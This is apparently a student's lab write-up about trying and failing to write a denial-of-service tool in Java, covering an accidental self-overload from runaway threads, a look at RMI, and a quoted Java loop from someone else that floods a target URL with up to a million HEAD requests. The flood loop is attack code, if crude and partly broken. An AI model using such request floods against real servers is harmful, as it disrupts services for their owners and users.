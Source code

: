 ###Network Attack
As in keylogger case, again I tried to do my best in order to get this project done in java. Here is something java definitelly cannot do, at least I could not find a good way to implemented it. Mainly it should not be possible because the JVM(Java Virtual Machine) would limit the amount of memory `java` process can consume. Because thats the main feature of java, to run inside its own environment. 

####Trials

#####Trial #1: Bug or Feature?
I have tried to create a simple server-client application and opened many many connections on same computer. Actually, by mistake on first laboratory work, while implementing multi-threading.

I started about 5 instances of java application, which creates a lot of threads, after some time, my pc started to lag and upon analyzing the resources I saw that I am doing something wrong. This could be some kind of DOS(Denial Of Service), I denied my own service, by creating multiple instances of java; all together it used about 4 Gb of ram memory, out of 8 Gb. 

The mistake was done mainly because:
   * I was not used to intelijIdea IDE (usually I use Android Studio)
   * I was sleepy and created a while loop in the wrong way

#####Trial #2: using RMI in JAVA
RMI stands for Remote Method Invocation, it directly transfers serialized Java classes and distributed garbage collection. 

I have read more about it, but still did not get how it works.

Some people succeeded to make it work, but still, they got a maximum of 60-70% memory load. I think my mistake from Trial #1 was way more successful. 

#####Trial #3: Simple Multiple Instances of Java
There is one guy who tried to DOS his own apache server by sending a milion packets to it.

		 for (int i = 1; i < 1000000; i++) {
            if ((checkshell.exists("http://"+TARGET+"")) == true)  {     
               System.out.println("Sent request " + i+" Times with " +i+" Connection");
              }
           else{
               if ((checkshell.exists("http://"+TARGET+"")) == false)  {    
                   System.out.println("Error after " +i+" Connection !!!");
                }  
             }
         }

And when calling `checkshell.exists()` the following code is executed:

			int TIMEOUT_VALUE = 0;
	   try {
	      HttpURLConnection.setFollowRedirects(false);
	      HttpURLConnection con =(HttpURLConnection) new URL(URLName).openConnection();
	      con.setInstanceFollowRedirects(false);
	      con.setConnectTimeout(TIMEOUT_VALUE);
	      con.setReadTimeout(TIMEOUT_VALUE);
	      con.setConnectTimeout(TIMEOUT_VALUE);
	      con.setRequestMethod("HEAD");   
	      con.addRequestProperty("User-Agent", userAgentPayload);
	      con.disconnect();
	      return (con.getResponseCode() == HttpURLConnection.HTTP_OK);
	    }

As you can see, the server could not take it anymore, and stopped responding:

[self dos](http://lh4.ggpht.com/-6g2iPXGc3Lw/USul3fBHf8I/AAAAAAAAAYM/fCVaC-YO-yA/s1600-h/Unbenannt%25255B5%25255D.jpg "self dos")

But I haven't tried it myself, as I would have to create the server on Virtual Machine first, and it is on Windows.


####Conclusion
Java is definitelly not for DOSing, I would preferably use Python, and give it a try. But at least I have seen how it works and how exactly a simple DOS applicat should work. 

In future, I will be more careful when working with multiple threads, and when requesting a lot of data from a server.


